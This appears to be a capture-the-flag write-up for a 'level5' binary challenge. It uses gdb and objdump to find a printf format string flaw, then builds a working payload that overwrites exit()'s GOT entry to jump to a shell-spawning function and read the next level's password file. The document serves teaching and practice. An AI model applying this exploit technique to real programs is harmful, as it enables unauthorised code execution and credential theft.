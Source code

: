 In this level, the executable waits for an input, prints it, and exits after pressing enter.

After analyzing it with gdb, we see that the main() function calls a function named `n()`, but there is also a non-called function `o()`. 

The `main()` function calls `n()`, which is not very interesting by itself. However, inside `n()`, there is a call to `fgets()`:
```
0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
This protects against buffer overflow attacks. After `fgets`(), there is a call to `printf()`:
```
0x080484f3 <+49>: call 0x8048380 <printf@plt>
```
This makes `printf()` vulnerable to a format string exploit.

The non-called function `o()` launches a shell via a call to `system()`:
```
0x080484b1 <+13>: call 0x80483b0 <system@plt>
```
We need to manipulate the `printf()` function into calling `o()` using a format string attack.

Our main concern is that both `n()` and `o()` never return and exit directly. Even if we overwrite something with the format string vulnerability, we may not be able to use that directly.

To overcome this, we can replace the address of `exit()` in the Global Offset Table (GOT) with the address of `o()`. Whenever `exit()` is called, the program will jump to the modified GOT entry.

First, find the address of `exit()` in the GOT and the address of `o()` function.
```
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

Now we have the address of `exit()`: `0x08049838` and the address of `o()`: `0x080484a4`.

We need to print the memory until we reach the address of `exit()`:
```
 python -c 'print "AAAA" + " %x" * 10' > /tmp/payload5
 cat /tmp/payload5 | ./level5
 AAAA 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520
```
The address of `exit()` is at the 4th position (`41414141`).


Our final format string attack:
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
cat /tmp/exploit5 - | ./level5
cat /home/user/level6/.pass
```

